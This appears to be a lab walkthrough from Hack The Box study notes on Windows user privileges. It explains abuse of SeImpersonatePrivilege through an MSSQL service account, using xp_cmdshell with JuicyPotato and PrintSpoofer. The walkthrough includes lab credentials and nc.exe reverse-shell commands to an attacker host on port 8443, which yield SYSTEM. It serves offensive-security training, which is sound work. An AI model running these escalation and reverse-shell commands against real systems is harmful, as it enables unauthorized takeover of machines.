 # 🆓 Windows User Privileges

The below diagram walks through the Windows authorization and access control process at a high level, showing, for example, the process started when a user attempts to access a securable object such as a folder on a file share.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

These rights allow users to perform tasks on the system such as logon locally or remotely, access the host from the network, shut down the server, etc.

| Setting [Constant](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | Setting Name                                                                                                                                                                              | Standard Assignment                                     |
| ----------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| SeNetworkLogonRight                                                                             | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network)               | Administrators, Authenticated Users                     |
| SeRemoteInteractiveLogonRight                                                                   | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    |
| SeBackupPrivilege                                                                               | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)                               | Administrators                                          |
| SeSecurityPrivilege                                                                             | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log)                         | Administrators                                          |
| SeTakeOwnershipPrivilege                                                                        | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)         | Administrators                                          |
| SeDebugPrivilege                                                                                | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs)                                                             | Administrators                                          |
| SeImpersonatePrivilege                                                                          | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          |

Typing the command `whoami /priv` will give you a listing of all user rights assigned to your current user.

```powershell-session
PS C:\htb> whoami /priv
<SNIP>
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
<SNIP>
```

When a privilege is listed for our account in the `Disabled` state, it means that our account has the specific privilege assigned. Still, it cannot be used in an access token to perform the associated actions until it is enabled. we need some scripting to help us out.

this PowerShell [script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts/Enable-Privilege.ps1) which can be used to enable certain privileges, or this [script](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) which can be used to adjust token privileges.

## SeImpersonate and SeAssignPrimaryToken

the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.  This [paper](https://github.com/hatRiot/token-priv/blob/master/abusing\_token\_eop\_1.0.txt) is worth reading for further details on token impersonation attacks.

### SeImpersonate Example - JuicyPotato

In this scenario, the SQL Service service account is running in the context of the default `mssqlserver` account. Imagine we have achieved command execution as this user using `xp_cmdshell` using a set of credentials obtained in a `logins.sql` file on a file share using the `Snaffler` tool.

Using the credentials `sql_dev:Str0ng_P@ssw0rd!` we connect to the SQL instance:

```shell-session
ElFelixi0@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
SQL>
```

Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands.

```shell-session
SQL> enable_xp_cmdshell
```

we can confirm that we are indeed running in the context of a SQL Server service account ->

```shell-session
SQL> xp_cmdshell whoami
nt service\mssql$sqlexpress01
```

let's check what privileges the service account has been granted.

```shell-session
SQL> xp_cmdshell whoami /priv 
<SNIP>
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
```

&#x20;[JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken`

first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

An don our listener ->

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lnvp 8443
<SNIP>
C:\Windows\system32>whoami
nt authority\system
```

### PrintSpoofer and RoguePotato

JuicyPotato **doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards**. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool

&#x20;Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command. Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

and if everything works fine our listener will catch this&#x20;

```shell-session
ElFelixi0@htb[/htb]$ nc -lnvp 8443

C:\Windows\system32>whoami
nt authority\system
```

_**Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt**_

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
